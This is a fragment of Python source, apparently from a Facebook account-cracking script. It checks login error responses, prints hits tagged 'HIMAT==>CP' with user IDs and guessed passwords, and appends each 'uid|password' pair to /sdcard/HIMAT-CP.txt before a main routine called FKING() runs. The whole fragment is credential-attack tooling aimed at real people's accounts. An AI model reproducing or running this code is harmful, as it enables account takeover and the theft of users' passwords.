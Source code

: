                                 try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        print('\r\r\x1b[37;41m [HIMAT==>CP]\33[0;m '+str(uid)+' | '+pas+'\033[1;97m')
                                        print("")
                                        open('/sdcard/HIMAT-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
try:
	FKING()
except requests.exceptions.ConnectionError:
	print('\n No internet connection ...')
	exit()
except:exit()
